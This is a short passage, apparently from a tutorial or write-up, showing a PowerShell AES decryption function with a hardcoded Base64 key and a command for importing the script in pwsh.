    [System.BitConverter]::ToString($fullData).replace("-","")
}

function Decrypt-String($key, $encryptedStringWithIV) {
    $bytes = [System.Convert]::FromBase64String($encryptedStringWithIV)
    $IV = $bytes[0..15]
    $aesManaged = Create-AesManagedObject $key $IV
    $decryptor = $aesManaged.CreateDecryptor();
    $unencryptedData = $decryptor.TransformFinalBlock($bytes, 16, $bytes.Length - 16);
    $aesManaged.Dispose()
    [System.Text.Encoding]::UTF8.GetString($unencryptedData).Trim([char]0)
}

$key = "a1E4MUtycWswTmtrMHdqdg=="
```

And import it:

```
$ pwsh
> Import-Module ./decrypt.ps1
```




